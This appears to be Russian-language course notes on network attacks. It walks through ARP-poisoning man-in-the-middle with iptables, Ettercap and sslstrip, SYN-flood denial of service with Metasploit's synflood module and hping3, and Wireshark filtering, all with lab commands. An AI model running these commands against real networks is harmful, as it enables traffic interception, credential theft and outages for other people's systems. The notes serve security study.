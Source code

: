# Сетевые атаки и анализ трафика

## Атаки "Man-in-the-Middle" ("Человек-посередине")

Атака при которой злоумышленик вмешивается в обем данными между двумя сторонами, выдаёт себя за обе стороны и получает доступ к информации, которые эти стороны отправляют друг-другу.

Протокол APR — применяется для нахождения MAC-адреса для заданого IP-адреса. Если передающий хост знает IP адрес, но не знает MAC, то он отправляет ARP-запрос, в ответ получает пакет содержащий нужный MAC-адрес. Полученый адресс сохраняется в ARP-таблицу.

### ARP Poisoning

Проблема в том, что в протоколе отсутвует проверка на подлиность ARP-пакетов, что деёт возможность атаки.

1. Хост 192.168.0.1 отправляет ARP-запрос, пытаясь определить MAC-адрес хоста 192.168.0.2
2. Коммутатор локальной сети (LAN) отправляет ARP-запрос всем хостам к сети
3. Злоумышленик (192.168.0.3, MAC 0000.0000.3333) отправляет сфальсифицированные ответы протокала ARP, так что хосты локальной сети связывают MAC-адрес злоумышленника с IP-адресом легитимного действующего компьютера или сервера.

### Пример

Делает в kali linux, команды выполнять с sudo/под рутом
1. Включаение маршрутизации IP-пакетов
```bash
sysctl net.ipv4.ip_forward=1
```
2. Включаение перенаправления
```bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
```
Команда перенаправляет весь входящий http-трафик на порпт 8080.
3. Проверить правила можно командой:
```bash
iptables -L -t nat
```
4. Для выполнение атаки нужно воспользоваться утилитой Ettercap
5. Нужно включить опцию снифинга: _Sniff — Unifled sniffing..._
6. Нужно найти хосты для атак, для этого нужно просканировать хосты: _Hosts — Scan for hosts_
7. Просмотр хосов в _Hosts — Host List_
8. Хосты жертвы нужно добавить в Target 1, маршрутизатор нужно добавить в Target 2. Добавлять в _Targets — Current targets_
9. Разметить цели в _Mitm — ARP poisoning_, обязательно должен быть включен параметр "Sniff remote connections."
10. Подмена HTTPS на HTTP:
```bash
sslstrip  -l 8080 -w sslstrip.log -a
```
-w — веедение логов, -a — записывать всё в логи
11. Для анализа перехваченных данных используется Wireshark.

## Атака "Denial-of-service" (отказ в обслуживании)

Атака с целью перевести к отказу в работе атакуемой системы. Достигается путем заполнения целевого ресурса избыточными запросами в попытке перегрузить системы и предотвратить заполнение некоторых или всех легитимных запросов.

### DDos

Distributed Denial-of-Service — атака типа "распределённый отказ в обслуживании".
* Для формирования потока запросов используется не один хост, а множество
* Атакующие хосты для атаки на цель объеденяются в **ботнеты**
* Ботнеты — это сети компьютеров, которые были взломаны хакерами и управляются удалённо.

### Пример

#### SYN-атака со спуфингом адресов иссточника

1. Анализ хоста жертвы, поиск открытых портов:
```bash
nmap -sS 192.168.0.0/24
```
2. Запустить metaspolit freamwork
```bash
msfconsole
```
3. Выбрать нужный модуль для атаки:
```bash
use auxiliary/dos/tcp/synflood
```
4. Указать данные для атаки, целеой хост и порт (можно указать любой открытый).
```
set RHOST 192.168.0.3
set RPORT 445
set TIMEOUT 5
```
5. Запуск атаки:
```bash
exploit
```

#### Hping3

1. Запуск атаки:
```bash
hping3 192.168.0.5 --flood
```

### Дополнительно

[Статья "основы фрагментации"](https://www.delphiplus.org/obnaruzhenie-narushenii-bezopasnosti-v-setyakh/osnovy-fragmentatsii.html)

## Анализ трафика с Wireshark

Поиск пакета с которого начиналась TCP-сессия: `tcp.flags.syn == 1`

### Дополнительно

[Установление TCP-соединения](https://ddos-guard.net/ru/terminology/protocols/3-h-etapnoe-rukopozhatie-tcp)
[Блокирование ip-адресов с помощью брандмауэра Windows](https://zen.yandex.ru/media/pronetblog/kak-zablokirovat-sait-cherez-brandmauer-windows-710-doloi-storonnee-po-5bf444b2740fd500aa0ab1cb)
